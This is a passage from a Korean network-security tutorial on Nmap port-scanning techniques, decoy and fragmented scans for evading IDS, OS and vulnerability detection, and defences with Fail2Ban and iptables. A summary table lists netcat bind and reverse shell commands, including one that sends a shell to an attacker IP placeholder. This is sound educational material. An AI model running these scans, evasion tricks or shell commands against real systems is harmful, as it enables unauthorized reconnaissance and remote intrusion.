

**Nmap 명령어:**

```bash
# TCP Connect 스캔
nmap -T4 -sT -p 80,443,1980 192.168.1.47

# 출력 예시:
# PORT     STATE    SERVICE
# 80/tcp   open     http
# 443/tcp  open     https
# 1980/tcp closed   unknown
```

#### 2) TCP SYN 스캔 (Half-Open 스캔)

**TCP SYN 스캔**은 3-Way Handshake를 완료하지 않고 SYN만 전송하는 스캔 방식입니다.

**특징:**
- **스텔스 스캔(Stealth Scan)**의 대표적인 방법입니다
- 세션 연결을 완료하지 않으므로 많은 시스템에서 로그가 남지 않습니다
- 빠른 스캔 속도를 제공합니다
- **관리자 권한(root)이 필요합니다** (raw socket 접근 필요)
- Nmap의 기본 스캔 방식입니다



**Nmap 명령어:**

```bash
# TCP SYN 스캔 (관리자 권한 필요)
nmap -T4 -sS -p 80,443,1980 192.168.1.47

# 출력 예시:
# PORT     STATE  SERVICE
# 80/tcp   open   http
# 443/tcp  open   https
# 1980/tcp closed unknown
```

#### 3) TCP FIN 스캔

**TCP FIN 스캔**은 TCP 헤더의 FIN 플래그만 설정하여 전송하는 스텔스 스캔 방식입니다.

**특징:**
- 연결을 맺지도 않았는데 연결 종료(FIN)를 보냅니다
- 비정상적인 패킷이므로 일부 방화벽/IDS를 우회할 수 있습니다
- **열린 포트: 응답 없음** (RFC 793 표준)
- **닫힌 포트: RST+ACK 응답**
- 윈도우 시스템에서는 제대로 작동하지 않을 수 있습니다



**Nmap 명령어:**

```bash
# TCP FIN 스캔
nmap -T4 -sF -p 21,80,1980 192.168.1.47

# 출력 예시:
# PORT     STATE         SERVICE
# 21/tcp   open|filtered ftp
# 80/tcp   open|filtered http
# 1980/tcp closed        unknown
```

#### 4) TCP NULL 스캔

**TCP NULL 스캔**은 모든 TCP 플래그를 0으로 설정(아무 플래그도 설정하지 않음)하여 전송하는 스캔 방식입니다.

**특징:**
- 모든 제어 비트가 꺼진 패킷을 전송합니다
- **열린 포트: 응답 없음**
- **닫힌 포트: RST+ACK 응답**
- 매우 이상한 패킷이므로 일부 IDS를 우회할 수 있습니다

**Nmap 명령어:**

```bash
# TCP NULL 스캔
nmap -T4 -sN -p 21,80,1980 192.168.1.47

# 출력 예시:
# PORT     STATE         SERVICE
# 21/tcp   open|filtered ftp
# 80/tcp   open|filtered http
# 1980/tcp closed        unknown
```

#### 5) TCP XMAS 스캔

**TCP XMAS 스캔**은 FIN, PSH, URG 플래그를 모두 설정하여 전송하는 스캔 방식입니다. 크리스마스 트리처럼 모든 플래그가 켜져있다고 해서 XMAS 스캔이라고 합니다.

**특징:**
- FIN, PSH, URG 플래그를 동시에 설정합니다
- **열린 포트: 응답 없음**
- **닫힌 포트: RST+ACK 응답**
- 방화벽 및 IDS 우회 가능성이 있습니다

**Nmap 명령어:**

```bash
# TCP XMAS 스캔
nmap -T4 -sX -p 22,443,1980 192.168.1.47

# 출력 예시:
# PORT     STATE         SERVICE
# 22/tcp   open|filtered ssh
# 443/tcp  open|filtered https
# 1980/tcp closed        unknown
```

#### 6) TCP ACK 스캔

**TCP ACK 스캔**은 방화벽의 룰셋(필터링 정책)을 테스트하기 위한 스캔 방식입니다.

**특징:**
- ACK 플래그만 설정하여 전송합니다
- 포트가 열렸는지 닫혔는지 판단하는 것이 아닙니다
- **방화벽 필터링 여부를 확인**하는 것이 목적입니다
- 응답이 있으면 필터링되지 않음(unfiltered)
- 응답이 없으면 필터링됨(filtered)

**Nmap 명령어:**

```bash
# TCP ACK 스캔 (방화벽 테스트)
nmap -T4 -sA -p 22,443,1980 192.168.1.47

# 출력 예시:
# PORT     STATE      SERVICE
# 22/tcp   unfiltered ssh
# 443/tcp  unfiltered https
# 1980/tcp unfiltered unknown
```

#### 7) UDP 스캔

**UDP 스캔**은 ICMP Unreachable 메시지를 이용하여 UDP 포트의 open 여부를 확인하는 스캔 방식입니다.

**특징:**
- UDP는 비연결형 프로토콜이므로 스캔이 어렵습니다
- **열린 포트: 응답 없음 또는 UDP 응답**
- **닫힌 포트: ICMP Port Unreachable 메시지**
- 스캔 속도가 매우 느립니다 (ICMP 응답 대기 시간)



**Nmap 명령어:**

```bash
# UDP 스캔
nmap -T4 -sU -p 53,123,161 192.168.1.47

# 출력 예시:
# PORT    STATE         SERVICE
# 53/udp  open          domain
# 123/udp open|filtered ntp
# 161/udp closed        snmp
```

### 3.4 Nmap STATE 필드

Nmap 스캔 결과의 STATE 필드는 포트의 상태를 나타냅니다.

| STATE | 의미 |
|-------|------|
| **open** | 포트가 열려있고 서비스가 실행 중 |
| **closed** | 포트가 닫혀있고 사용하는 응용프로그램이 없음 |
| **filtered** | 방화벽에 패킷이 필터링되어 있어 확인 불가 |
| **unfiltered** | 포트에 접근 가능하나 열렸는지 확인 불가 (ACK 스캔 시) |
| **open\|filtered** | 포트가 열려있거나 필터링됨 (FIN, NULL, XMAS 스캔 시) |
| **closed\|filtered** | 포트가 닫혀있거나 필터링됨 (IP ID idle 스캔 시) |

---

## 4. Nmap 활용

### 4.1 Nmap 설치

```bash
# CentOS/RHEL
yum -y install nmap*

# Debian/Ubuntu
apt-get install -y nmap

# 설치 확인
nmap --version

# 출력 예시:
# Nmap version 7.80 ( https://nmap.org )
```

### 4.2 Nmap 기본 사용법

#### 기본 스캔

```bash
# 기본 스캔 (상위 1000개 포트)
nmap 192.168.1.47

# 특정 포트 스캔
nmap -p 80,443,3306 192.168.1.47

# 포트 범위 스캔
nmap -p 1-100 192.168.1.47

# 모든 포트 스캔 (1-65535)
nmap -p- 192.168.1.47

# 빠른 스캔 (상위 100개 포트만)
nmap -F 192.168.1.47
```

#### 스캔 타이밍 옵션 (-T)

Nmap은 `-T` 옵션으로 스캔 속도를 조절할 수 있습니다.

| 옵션 | 이름 | 설명 |
|------|------|------|
| `-T0` | Paranoid | 매우 느림, IDS 회피 목적 |
| `-T1` | Sneaky | 느림, IDS 회피 목적 |
| `-T2` | Polite | 정중함, 대역폭 절약 |
| `-T3` | Normal | 기본값, 일반 속도 |
| `-T4` | Aggressive | 빠름, 정확한 네트워크 권장 |
| `-T5` | Insane | 매우 빠름, 부정확할 수 있음 |

```bash
# 빠른 스캔 (권장)
nmap -T4 -p 80,443 192.168.1.47

# 매우 빠른 스캔
nmap -T5 -p 1-1000 192.168.1.47

# 스텔스 스캔 (느림, IDS 회피)
nmap -T1 -sS -p 80,443 192.168.1.47
```

### 4.3 다양한 스캔 옵션 조합

#### TCP SYN 스캔 (가장 일반적)

```bash
# TCP SYN 스캔 (관리자 권한 필요)
nmap -T4 -sS -p 80,443,1980 192.168.1.47

# 출력 예시:
# PORT     STATE  SERVICE
# 80/tcp   open   http
# 443/tcp  open   https
# 1980/tcp closed unknown
```

#### TCP Connect 스캔 (일반 사용자)

```bash
# TCP Connect 스캔 (관리자 권한 불필요)
nmap -T4 -sT -p 80,443,1980 192.168.1.47
```

#### FIN/NULL/XMAS 스캔 (스텔스)

```bash
# FIN 스캔
nmap -T4 -sF -p 21,80,1980 192.168.1.47

# NULL 스캔
nmap -T4 -sN -p 21,80,1980 192.168.1.47

# XMAS 스캔
nmap -T4 -sX -p 22,443,1980 192.168.1.47
```

#### UDP 스캔

```bash
# UDP 포트 스캔 (DNS, NTP, SNMP)
nmap -T4 -sU -p 53,123,161 192.168.1.47

# UDP 스캔은 시간이 오래 걸리므로 -T4 권장
```

### 4.4 Decoy 스캔 (스캔 출처 은폐)

**Decoy 스캔**은 실제 스캐너의 주소 외에 다양한 위조된 주소로 동시에 스캔하여 실제 공격자를 숨기는 기법입니다.

```bash
# Decoy 스캔 기본 문법
nmap -T4 -sS -p 22,80,1980 192.168.1.47 -D [위조IP1],[위조IP2],[위조IP3]

# 실습 예시
nmap -T4 -sS -p 22,80,1980 192.168.1.47 -D 10.10.10.10,10.10.1.5,172.16.16.16

# 출력 (대상 서버 로그):
# 10.10.10.10에서 스캔 시도
# 10.10.1.5에서 스캔 시도
# 172.16.16.16에서 스캔 시도
# 192.168.1.200에서 스캔 시도 (실제 공격자)
# → 어느 것이 실제 공격자인지 판별 어려움
```



**Decoy 주의사항:**
- 위조 IP는 실제로 존재하는 IP여야 효과적입니다
- 너무 많은 Decoy를 사용하면 스캔이 느려집니다
- 일부 네트워크에서는 소스 IP 검증으로 차단될 수 있습니다

### 4.5 Nmap 출력 옵션

#### 출력 형식

```bash
# 일반 파일 형식으로 출력
nmap -T4 -sS -oN "normal.txt" -p 22,80 192.168.1.47

# XML 파일 형식 (다른 도구에서 파싱 가능)
nmap -T4 -sS -oX "xml.xml" -p 22,80 192.168.1.47

# Grepable 형식 (grep, awk로 분석하기 편함)
nmap -T4 -sS -oG "grep.txt" -p 22,80 192.168.1.47

# 모든 형식으로 출력 (파일명 prefix 지정)
nmap -T4 -sS -oA "scan_result" -p 22,80 192.168.1.47
# 생성 파일:
# - scan_result.nmap (일반)
# - scan_result.xml (XML)
# - scan_result.gnmap (Grepable)
```

#### Grepable 출력 활용

```bash
# Grepable 형식으로 스캔
nmap -T4 -sS -oG scan.txt -p 1-1000 192.168.1.0/24

# 열린 포트만 추출
grep "open" scan.txt

# 특정 포트(22)가 열린 호스트 추출
grep "22/open" scan.txt | awk '{print $2}'

# 열린 포트 수가 많은 호스트 찾기
grep "Ports:" scan.txt | sort -t/ -k2 -nr | head -10
```

### 4.6 OS 탐지 (-O)

Nmap은 TCP/IP 스택 핑거프린팅 기법으로 대상 시스템의 운영체제를 추측할 수 있습니다.

```bash
# OS 탐지 (관리자 권한 필요)
nmap -O 192.168.1.47

# 출력 예시:
# PORT   STATE SERVICE
# 22/tcp open  ssh
# 80/tcp open  http
# Device type: general purpose
# Running: Linux 3.X|4.X
# OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
# OS details: Linux 3.2 - 4.9
# Network Distance: 1 hop

# OS 탐지 + 버전 탐지
nmap -O -sV 192.168.1.47

# OS 탐지 공격성 높이기
nmap -O --osscan-guess 192.168.1.47
```

### 4.7 서비스 버전 탐지 (-sV)

```bash
# 서비스 버전 탐지
nmap -sV -p 22,80,443 192.168.1.47

# 출력 예시:
# PORT    STATE SERVICE VERSION
# 22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
# 80/tcp  open  http    Apache httpd 2.4.6
# 443/tcp open  ssl/http Apache httpd 2.4.6

# 버전 탐지 강도 조절 (0-9, 9가 가장 강함)
nmap -sV --version-intensity 9 -p 22,80,443 192.168.1.47
```

### 4.8 스크립트 엔진 (NSE)

Nmap은 Lua 스크립트 기반의 강력한 스크립트 엔진(NSE)을 제공합니다.

```bash
# 기본 스크립트 실행
nmap -sC 192.168.1.47

# 특정 카테고리 스크립트 실행
nmap --script vuln 192.168.1.47

# 특정 스크립트 실행
nmap --script http-title -p 80 192.168.1.47

# 여러 스크립트 동시 실행
nmap --script "http-*" -p 80 192.168.1.47

# 사용 가능한 스크립트 확인
ls /usr/share/nmap/scripts/

# 스크립트 도움말
nmap --script-help http-title
```

**유용한 NSE 스크립트:**

```bash
# HTTP 정보 수집
nmap --script http-enum -p 80 192.168.1.47

# SMB 취약점 스캔
nmap --script smb-vuln-* -p 445 192.168.1.47

# SQL 인젝션 테스트
nmap --script http-sql-injection -p 80 192.168.1.47

# SSL/TLS 취약점 스캔
nmap --script ssl-enum-ciphers -p 443 192.168.1.47
```

### 4.9 전체 네트워크 스캔

```bash
# C 클래스 전체 스캔 (192.168.1.1-254)
nmap -T4 -sS 192.168.1.0/24

# 살아있는 호스트만 찾기 (Ping 스캔)
nmap -sn 192.168.1.0/24

# 출력 예시:
# Host is up (0.0010s latency).
# Nmap scan report for 192.168.1.1
# Nmap scan report for 192.168.1.100
# Nmap scan report for 192.168.1.105
# ...

# 여러 네트워크 동시 스캔
nmap -T4 192.168.1.0/24 192.168.2.0/24

# 파일에서 IP 목록 읽어서 스캔
nmap -iL targets.txt
```

### 4.10 Nmap 실전 시나리오

#### 시나리오 1: 전체 포트 스캔 + 버전 탐지 + OS 탐지

```bash
nmap -T4 -A -p- 192.168.1.47

# -A: Aggressive 스캔 (OS 탐지, 버전 탐지, 스크립트 스캔, traceroute)
# -p-: 모든 포트 스캔 (1-65535)
```

#### 시나리오 2: 스텔스 스캔 (IDS 회피)

```bash
# 매우 느린 스캔 + SYN 스캔 + Decoy
nmap -T1 -sS -p 22,80,443 192.168.1.47 -D 10.1.1.1,10.1.1.2,10.1.1.3

# Fragment 패킷 사용 (IDS 우회)
nmap -f -sS -p 22,80,443 192.168.1.47
```

#### 시나리오 3: 웹 서버 취약점 스캔

```bash
# 웹 서버 전체 취약점 스캔
nmap -T4 -p 80,443,8080 --script "http-* and vuln" 192.168.1.47
```

#### 시나리오 4: 빠른 네트워크 정찰

```bash
# 1. 살아있는 호스트 찾기
nmap -sn 192.168.1.0/24 -oG alive.txt

# 2. 살아있는 호스트의 상위 100개 포트 스캔
grep "Up" alive.txt | awk '{print $2}' > targets.txt
nmap -T4 -F -iL targets.txt -oA fast_scan
```

---

## 5. 추가 학습: 포트 스캔 방어 및 탐지

### 5.1 포트 스캔 탐지 방법

#### 1. 로그 모니터링

```bash
# 연결 시도 로그 확인
tail -f /var/log/secure | grep "Failed"

# 방화벽 로그 확인
tail -f /var/log/firewalld

# iptables 로그 확인
iptables -L -n -v | grep LOG
```

#### 2. Fail2Ban 설치 및 설정

Fail2Ban은 반복적인 실패한 연결 시도를 탐지하여 자동으로 차단하는 도구입니다.

```bash
# Fail2Ban 설치
yum install -y epel-release
yum install -y fail2ban

# 설정 파일 복사
cp /etc/fail2ban/jail.conf /etc/fail2ban/jail.local

# SSH 보호 설정
vi /etc/fail2ban/jail.local

[sshd]
enabled = true
port = ssh
logpath = /var/log/secure
maxretry = 3
bantime = 3600

# Fail2Ban 시작
systemctl start fail2ban
systemctl enable fail2ban

# 차단된 IP 확인
fail2ban-client status sshd
```

#### 3. iptables로 포트 스캔 차단

```bash
# SYN Flood 공격 방어
iptables -A INPUT -p tcp --syn -m limit --limit 1/s -j ACCEPT
iptables -A INPUT -p tcp --syn -j DROP

# 포트 스캔 탐지 및 차단
iptables -N port-scanning
iptables -A port-scanning -p tcp --tcp-flags SYN,ACK,FIN,RST RST -m limit --limit 1/s -j RETURN
iptables -A port-scanning -j DROP

# NULL 스캔 차단
iptables -A INPUT -p tcp --tcp-flags ALL NONE -j DROP

# XMAS 스캔 차단
iptables -A INPUT -p tcp --tcp-flags ALL ALL -j DROP

# FIN 스캔 차단
iptables -A INPUT -p tcp --tcp-flags FIN,ACK FIN -j DROP
```

### 5.2 서비스 하드닝 (Hardening)

#### 1. 불필요한 서비스 중지

```bash
# 실행 중인 서비스 확인
systemctl list-units --type=service --state=running

# 불필요한 서비스 중지
systemctl stop telnet.socket
systemctl disable telnet.socket
```

#### 2. 기본 포트 변경

```bash
# SSH 포트 변경 (22 → 2222)
vi /etc/ssh/sshd_config
# Port 2222

systemctl restart sshd

# 방화벽 규칙 업데이트
firewall-cmd --add-port=2222/tcp --permanent
firewall-cmd --remove-service=ssh --permanent
firewall-cmd --reload
```

#### 3. 배너 숨기기

```bash
# SSH 배너 숨기기
vi /etc/ssh/sshd_config
# DebianBanner no

# Apache 버전 숨기기
vi /etc/httpd/conf/httpd.conf
# ServerTokens Prod
# ServerSignature Off
```

---

## 주요 개념 요약표

| 구분 | 주요 개념 | 설명 |
|------|----------|------|
| **Netcat** | 개념 | TCP/UDP를 이용한 네트워크 유틸리티 |
| | 주요 기능 | 포트 스캔, 파일 전송, 배너 수집, Shell 연결 |
| | 주요 옵션 | -l (Listen), -e (프로그램 실행), -v (Verbose) |
| | 활용 | 네트워크 디버깅, 침투 테스트, 파일 전송 |
| **Bind Shell** | 개념 | 희생자가 포트를 열고 공격자가 접속 (정방향) |
| | 연결 방향 | 공격자 → 희생자 |
| | 명령어 | 희생자: `nc -lvp 4444 -e cmd` |
| |  | 공격자: `nc 희생자IP 4444` |
| | 단점 | 방화벽 Inbound 차단, NAT 우회 어려움 |
| **Reverse Shell** | 개념 | 공격자가 포트를 열고 희생자가 접속 (역방향) |
| | 연결 방향 | 희생자 → 공격자 |
| | 명령어 | 공격자: `nc -lvp 9999` |
| |  | 희생자: `nc 공격자IP 9999 -e cmd` |
| | 장점 | 방화벽 Outbound 우회, NAT 환경에서도 가능 |
| **포트 스캔** | TCP Connect | 완전한 3-Way Handshake, 로그 남음 |
| | TCP SYN | Half-Open, 스텔스 스캔, 빠름 |
| | TCP FIN | 비정상 패킷, 열린 포트는 응답 없음 |
| | TCP NULL | 모든 플래그 0, 열린 포트는 응답 없음 |
| | TCP XMAS | FIN+PSH+URG, 열린 포트는 응답 없음 |
| | TCP ACK | 방화벽 필터링 여부 테스트 |
| | UDP | ICMP Unreachable로 판단, 느림 |
| **Nmap** | TCP Connect | `nmap -sT -p 80 IP` |
| | TCP SYN | `nmap -sS -p 80 IP` (기본값) |
| | FIN 스캔 | `nmap -sF -p 80 IP` |
| | NULL 스캔 | `nmap -sN -p 80 IP` |
| | XMAS 스캔 | `nmap -sX -p 80 IP` |
| | UDP 스캔 | `nmap -sU -p 53 IP` |
| | OS 탐지 | `nmap -O IP` |
| | 버전 탐지 | `nmap -sV -p 80 IP` |
| | Aggressive | `nmap -A IP` |
| | 타이밍 | -T0~T5 (T4 권장) |
| | Decoy | `nmap -D 위조IP1,위조IP2 IP` |
| | 출력 | -oN (일반), -oX (XML), -oG (Grep) |

---

## 데비안(Debian/Ubuntu) vs CentOS 차이점

### Netcat

| 항목 | Debian/Ubuntu | CentOS/RHEL |
|------|---------------|-------------|
| 패키지명 | `netcat` 또는 `netcat-openbsd` | `nc` 또는 `nmap-ncat` |
| 설치 명령어 | `apt-get install netcat` | `yum install nc` |
| -e 옵션 | `netcat-traditional`에만 있음 | `nmap-ncat`에 있음 |
| 기본 버전 | OpenBSD netcat (보안 강화) | nmap-ncat (기능 풍부) |

### Nmap

| 항목 | Debian/Ubuntu | CentOS/RHEL |
|------|---------------|-------------|
| 설치 명령어 | `apt-get install nmap` | `yum install nmap` |
| 스크립트 위치 | `/usr/share/nmap/scripts/` | `/usr/share/nmap/scripts/` |
| 명령어 | 동일 | 동일 |

### 방화벽

| 항목 | Debian/Ubuntu | CentOS/RHEL |
|------|---------------|-------------|
| 기본 방화벽 | `ufw` | `firewalld` |
| 포트 열기 | `ufw allow 9999/tcp` | `firewall-cmd --add-port=9999/tcp` |
| 방화벽 상태 | `ufw status` | `firewall-cmd --list-all` |

---

## 마무리

이번 Part 10에서는 네트워크 보안 및 침투 테스트의 핵심 도구인 Netcat, Bind/Reverse Shell, 포트 스캔, Nmap을 학습했습니다.

**Netcat**은 네트워크의 스위스 아미 나이프로, 다양한 네트워크 작업을 간단히 수행할 수 있습니다. **Bind Shell과 Reverse Shell**을 통해 원격 접근 공격의 원리를 이해했으며, **포트 스캔**의 다양한 기법(TCP Connect, SYN, FIN, NULL, XMAS, ACK, UDP)을 학습했습니다. 마지막으로 **Nmap**을 활용하여 실전 네트워크 정찰 및 취약점 스캔을 실습했습니다.